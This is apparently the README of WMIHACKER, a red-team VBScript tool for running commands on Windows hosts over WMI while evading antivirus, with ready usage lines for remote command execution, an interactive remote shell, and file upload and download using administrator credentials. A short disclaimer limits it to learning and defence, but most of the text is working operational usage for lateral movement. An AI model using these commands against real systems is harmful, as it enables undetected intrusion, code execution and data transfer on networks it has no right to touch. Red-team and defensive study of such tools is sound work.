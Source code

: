 # WMIHACKER（No need 445 Port）
[中文版(Chinese version)](README_zh.md)

> Disclaimer: The technology involved in this project is only for security learning and  defense purposes, illegal use is prohibited!


Bypass anti-virus software lateral movement command execution test tool（No need 445 Port）

Introduction: The common WMIEXEC, PSEXEC tool execution command is to create a service or call Win32_Process.create, these methods have been intercepted by Anti-virus software 100%, so we created WMIHACKER (Bypass anti-virus software lateral movement command execution test tool（No need 445 Port）).

Main functions: 1. Command execution; 2. File upload; 3. File download

## How to use
```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

The result is displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

No results are displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

shell mode

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

File upload: copy the local calc.exe to the remote host c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

File download: Download the remote host calc.exe to the local c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `
